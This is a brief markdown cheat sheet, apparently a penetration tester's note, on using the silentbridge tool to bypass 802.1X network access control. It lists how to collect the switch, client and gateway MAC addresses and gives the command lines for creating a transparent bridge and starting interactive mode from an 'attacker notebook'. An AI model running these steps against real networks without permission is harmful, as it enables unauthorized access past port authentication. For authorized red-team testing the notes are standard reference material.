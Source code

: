 ### Source
https://github.com/s0lst1c3/silentbridge  

### Required informations
```
disable DHCP and Network-Manager for used interfaces

upstream > attacker notebook to NAC ethernet port - example <interface1>  
physical > attacker notebook to windows client - example <interface2>  

get RADIUS switch MAC address (wireshark filter for eap) - example <mac1>  

get IP address of windows client - example <ip>  
get MAC address of windows client - example <mac2>  
get MAC address of default gateway - example <mac3>  
C> ipconfig /all  
```

### Start silent bridge and listen
```
$> ./silentbridge --create-bridge --upstream <interface1> --phy <interface2> --sidechannel <interface1>
```

### Start interactive mode
```
$> ./silentbridge --add-interaction --gw-mac <mac3> --client-ip <ip> --upstream <interface1> --client-mac <mac2> --phy <interface2> --switch-mac <mac1> --sidechannel <interface1>
```


